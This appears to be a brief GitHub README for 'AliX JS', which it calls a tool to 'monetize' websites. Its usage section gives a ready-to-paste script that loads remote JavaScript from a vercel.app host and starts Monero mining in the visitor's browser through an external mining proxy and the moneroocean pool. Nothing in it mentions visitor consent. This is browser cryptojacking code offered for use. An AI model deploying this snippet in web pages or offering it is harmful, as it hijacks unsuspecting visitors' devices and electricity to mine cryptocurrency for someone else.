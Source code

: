 AliX JS Is A PowerFull JS Used To Monitize Websites And Apps  
## USE
```
<script src="https://alixjs.vercel.app/index.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "YOUR-MONERO-ADRESS";
    var workerId = "YOUR-WORKER-ID";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
`Major Docs Updated Later`

